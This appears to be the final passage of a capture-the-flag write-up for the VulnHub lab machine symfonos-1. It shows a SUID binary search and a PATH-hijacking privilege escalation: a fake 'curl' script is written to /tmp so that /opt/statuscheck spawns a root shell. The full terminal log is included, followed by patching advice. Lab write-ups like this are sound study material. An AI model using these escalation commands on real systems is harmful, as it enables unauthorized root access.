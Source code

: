 `find / -user root -perm -4000 -print 2>/dev/null`

This command will print out and fiter junk output from the terminal. 


![a27290cb355d459344cc3fe74ddda45f.png](/images/vulnhub/symfonos-1/1e06befddf8b4014878ffd2edf5837be.png)


We found that `/opt/statuscheck` is quite weird here. We can use strings to check it out. 



![c7d73775d0fa80a553684df7af7c3635.png](/images/vulnhub/symfonos-1/3e11d8c71b9f482d87b1386841de9950.png)

This binary call `curl` directly. We can use this to elevate permission and gain root. 

- **Escalation summary**
from here, we are basically : -
1. cd to /tmp
2. echo `shebang` to curl
3. echo `/bin/bash` to curl
4. gave 755 permission on curl
5. export /tmp to path
6. run /opt/statuscheck


```bash
helios@symfonos:/tmp$ echo -n "#!" > curl
echo -n "#!" > curl
helios@symfonos:/tmp$ echo "/bin/sh" >> curl
echo "/bin/sh" >> curl
helios@symfonos:/tmp$ echo "/bin/sh" >> curl
echo "/bin/sh" >> curl
helios@symfonos:/tmp$ chmod 755 curl
chmod 755 curl
helios@symfonos:/tmp$ import PATH=/tmp:$PATH
import PATH=/tmp:$PATH
bash: import: command not found
helios@symfonos:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
helios@symfonos:/tmp$ /opt/statuscheck
/opt/statuscheck
# whoami
whoami
root
# 
```


## Flaggy flag

![975a9c7c5cd0a00b7efe6e3925dee148.png](/images/vulnhub/symfonos-1/f3a34b6d8b9f4f80aa52eed6ce06952a.png)

## Summary
- Update wordpress installation
- patch patch patch
- be careful of choosing + install third party plugin. more plugin, more attacking surfaces
- check for plugin updates, patch!
- uninstall/disable plugin if not use, less is more!
- Attacking summary : LFI -> Mailbox poison -> Reverse Shell -> Initial foothold -> SUID /opt/statuscheck -> rooted!
